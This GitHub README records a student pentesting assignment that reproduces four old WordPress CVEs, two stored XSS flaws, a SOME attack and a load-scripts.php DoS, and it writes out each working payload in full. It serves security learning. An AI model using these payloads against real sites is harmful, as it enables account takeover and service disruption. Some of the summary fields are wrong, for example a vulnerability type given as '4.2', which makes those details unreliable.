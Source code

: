 # CodePathweek7
# Project 7 - WordPress Pentesting

Time spent: 5 hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

Exploit 1. CVE-2016-4566 Upload Same Origin Method Execution (SOME)
  - [ ] Summary: 
    - Vulnerability types: Same Origin Method Execution (SOME)
    - Tested in version: 4.2
    - Fixed in version: 4.2.8
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit1.gif
  - [ ] Steps to recreate: 
  
        1. Reply to an existing comment
        
        2. Using Javascript use the following code:
            <button onclick="fire()">Click</button>
            <script>
            function fire() {
             open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload /plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
              setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
            }
            </script>
            
        3. The following script will use an exploit that will create a malicious button that when clicked will take the user to a fake    website example.com
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/changeset/37382/)
    
Exploit 2. CVE-2015-3440 Unauthenticated Stored Cross Site-Scripting (XSS)
  - [ ] Summary: 
    - Vulnerability types: Cross Site-Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit2.gif
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            a) It must contain an XSS injection content, followed by at least 64 kilobytes of text
                Example: 
                    <a title='x onmouseover=alert(unescape(/hello%20world/.source))
                    style=position:absolute;left:0;top:0;width:5000px;height:5000px
                    AAAAAAAA.. (for 64 kb)....AAAAAA
                    
        3. Save and reload the site
        
        4. WordPress will truncate the comment allowing the injected content to be posted on the site
            a) A pop up message of "Hello World" will pop up on mouse move
            
  - [ ] Affected source code:
    - [Link 2](https://core.trac.wordpress.org/changeset/32299)
    - [Link 2.1](https://www.exploit-db.com/exploits/36844/)
    - [Link 2.2](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3440)
    
Exploit 3. CVE-2018-6389 Application Denial of Service (DoS)
  - [ ] Summary: 
    - Vulnerability types: 4.2
    - Tested in version: 4.9.4
    - Fixed in version: unpacthed
  - [ ] GIF Walkthrough: https://github.com/oleksandrbi/CodePathweek7/blob/master/exploit3.gif
  - [ ] Steps to recreate:
  
          1. When the site is loading, you need to past the following at the end of the URl
              load-scripts.php?c=1&load=editor,common,user-profile,media-widgets,media-gallery
          2. With the script now in the URL, reload the webpage and it tries to find the JavaScript file name (ediotr,common, etc.)
          3. The webpage will then find all the information and return it to the users webpage in a single file
        
  - [ ] Affected source code:
    - [Link 3](https://wpvulndb.com/vulnerabilities/9021)
    
Expoint 4: CVE-2017-6817 Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds
  - [ ] Summary: 
    - Vulnerability types:  Cross-Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.7.3
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  
        1. Create a new post
        
        2. In the post body, write this code:
            [embed src='https://youtube.com/embed/12345\x3csvg onload=alert("No Body Is Safe!")\x3e'][/embed]
            
        3. Save your changes, when you go to the post on the site you will see an embeded link
        
        4. Click the embeded link and a alert window will pop up with the message “No Body Is Safe!”
        
  - [ ] Affected source code:
    - [Link 4](https://wpvulndb.com/vulnerabilities/8768) 
    
## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Oleksandr Bihary

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
